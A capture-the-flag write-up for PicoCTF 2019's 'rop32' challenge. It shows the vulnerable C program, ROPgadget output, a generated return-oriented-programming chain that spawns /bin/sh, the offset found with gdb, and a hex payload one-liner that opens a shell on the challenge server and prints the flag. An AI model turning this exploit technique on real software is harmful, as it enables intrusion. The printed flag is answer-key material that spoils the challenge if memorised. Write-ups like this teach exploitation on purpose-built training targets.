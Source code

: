 # Rop32 | PicoCTF2019
## Problem
Can you exploit the following program to get a flag? You can find the program in /problems/rop32_0_b4142d4df31cb73e170c77dac234a79a on the shell server.  
Hint: This is a classic ROP to the get a shell.

## Solution
References:
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html
- https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf
- https://hwchen18546.wordpress.com/2014/07/15/rop-use-ropgadget-to-chain-gadgets/
- https://github.com/JonathanSalwan/ROPgadget
- https://www.youtube.com/watch?v=MSy0rdi1vbo <--- ROPchain video

### 1. Look at the code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("Can you ROP your way out of this one?\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```
Returning the value of gets(buf) will result in input on the stack, however it will also result in the program immediately ending as there is nowhere else for it to go. There's no flag function this time, so the aim will be to either get a shell or just output the flag.txt on the server somehow, depending on what is possible. Knowing this is a ROP exploit, after doing some research it is clear we need to construct a ROP chain using gadgets within the binary.

### 2. Construct the ROP chain
ROPgadget is a tool that extracts useful gadgets from a binary and can use them to construct a ROP chain that by default, will attempt to open a shell. When using it to generate a chain of instructions, the argument --badbytes 0a ensures there is no newline character bytes present in the chain, as this will cause the gets() function to stop getting input before the chain can be completely read in.
```bash
kali@kali:~/Desktop$ ROPgadget --binary ./vuln --ropchain --badbytes 0a
...
0x0805d264 : xor esi, esi ; mov dword ptr gs:[eax], 0xc ; jmp 0x805d178
0x0806ef6b : xor esi, esi ; mov eax, ebp ; mov ecx, 0x80 ; call dword ptr gs:[0x10]
0x0805ba90 : xor esi, esi ; mov ebx, 0x10 ; jmp 0x805b936
0x08049d58 : xor esi, esi ; mov ecx, dword ptr [ebp - 0x3c] ; mov edx, esi ; mov esi, edi ; jmp 0x8049d7f
0x0804eca3 : xor esi, esi ; pop ebx ; mov eax, esi ; pop esi ; pop edi ; pop ebp ; ret
0x08091dac : xor esi, esi ; ret 0xf01
0x0805786d : xor esi, esi ; xor edi, edi ; jmp 0x80576c4
0x08057855 : xor esi, esi ; xor edi, edi ; jmp 0x80577d4

Unique gadgets found: 29905

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x8056e65 mov dword ptr [edx], eax ; ret
        [+] Gadget found: 0x806ee6b pop edx ; ret
        [+] Gadget found: 0x8056334 pop eax ; pop edx ; pop ebx ; ret
        [+] Gadget found: 0x8056420 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

        [+] Gadget found: 0x8056420 xor eax, eax ; ret
        [+] Gadget found: 0x807c2fa inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

        [+] Gadget found: 0x80481c9 pop ebx ; ret
        [+] Gadget found: 0x806ee92 pop ecx ; pop ebx ; ret
        [+] Gadget found: 0x806ee6b pop edx ; ret

- Step 4 -- Syscall gadget

        [+] Gadget found: 0x8049563 int 0x80

- Step 5 -- Build the ROP chain

        #!/usr/bin/env python2
        # execve generated by ROPgadget

        from struct import pack

        # Padding goes here
        p = ''

        p += pack('<I', 0x0806ee6b) # pop edx ; ret
        p += pack('<I', 0x080da060) # @ .data
        p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
        p += '/bin'
        p += pack('<I', 0x080da060) # padding without overwrite edx
        p += pack('<I', 0x41414141) # padding
        p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
        p += pack('<I', 0x0806ee6b) # pop edx ; ret
        p += pack('<I', 0x080da064) # @ .data + 4
        p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
        p += '//sh'
        p += pack('<I', 0x080da064) # padding without overwrite edx
        p += pack('<I', 0x41414141) # padding
        p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
        p += pack('<I', 0x0806ee6b) # pop edx ; ret
        p += pack('<I', 0x080da068) # @ .data + 8
        p += pack('<I', 0x08056420) # xor eax, eax ; ret
        p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
        p += pack('<I', 0x080481c9) # pop ebx ; ret
        p += pack('<I', 0x080da060) # @ .data
        p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
        p += pack('<I', 0x080da068) # @ .data + 8
        p += pack('<I', 0x080da060) # padding without overwrite ebx
        p += pack('<I', 0x0806ee6b) # pop edx ; ret
        p += pack('<I', 0x080da068) # @ .data + 8
        p += pack('<I', 0x08056420) # xor eax, eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x08049563) # int 0x80
```

## 3. Add the padding
The offset I can get using a cyclic input from pwntools as normal, except we have to look where the program segfaults to tell us, as there doesnt appear to be any easy point where I can print the stack to see (could be wrong about this though?). This way worked anyway, and in this case, the offset is 28 bytes.
```bash
"./vuln": No such file or directory.
Attaching to process 3983
Reading symbols from /home/kali/Desktop/vuln...
(No debugging symbols found in /home/kali/Desktop/vuln)
0x2aa9e169 in __kernel_vsyscall ()
(gdb) break gets
Breakpoint 1 at 0x8050120
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616168 in ?? ()

kali@kali:~/Desktop$ python -c "from pwn import cyclic_find; print(cyclic_find(0x61616168))"
28
```

## 4. Get the flag
Therefore the final payload consists of 28 padding bytes, then the ROP chain constructed by ROPgadget (see solve.py). We can run it locally to test:
```bash
kali@kali:~/Desktop$ python solve.py
[+] Starting local process './vuln': pid 4165
Can you ROP your way out of this one?
[*] Switching to interactive mode

$ whoami
kali
```
And then run it on the server to win.
```bash
jib1337@pico-2019-shell1:/problems/rop32_0_b4142d4df31cb73e170c77dac234a79a$ (python -c "print('\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x6b\xee\x06\x08\x60\xa0\x0d\x08\x34\x63\x05\x08\x2f\x62\x69\x6e\x60\xa0\x0d\x08\x41\x41\x41\x41\x65\x6e\x05\x08\x6b\xee\x06\x08\x64\xa0\x0d\x08\x34\x63\x05\x08\x2f\x2f\x73\x68\x64\xa0\x0d\x08\x41\x41\x41\x41\x65\x6e\x05\x08\x6b\xee\x06\x08\x68\xa0\x0d\x08\x20\x64\x05\x08\x65\x6e\x05\x08\xc9\x81\x04\x08\x60\xa0\x0d\x08\x92\xee\x06\x08\x68\xa0\x0d\x08\x60\xa0\x0d\x08\x6b\xee\x06\x08\x68\xa0\x0d\x08\x20\x64\x05\x08\xfa\xc2\x07\x08\xfa\xc2\x07\x08\xfa\xc2\x07\x08\xfa\xc2\x07\x08\xfa\xc2\x07\x08\xfa\xc2\x07\x08\xfa\xc2\x07\x08\xfa\xc2\x07\x08\xfa\xc2\x07\x08\xfa\xc2\x07\x08\xfa\xc2\x07\x08\x63\x95\x04\x08')"; cat) | ./vuln
Can you ROP your way out of this one?
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{rOp_t0_b1n_sH_01a585a7}
```
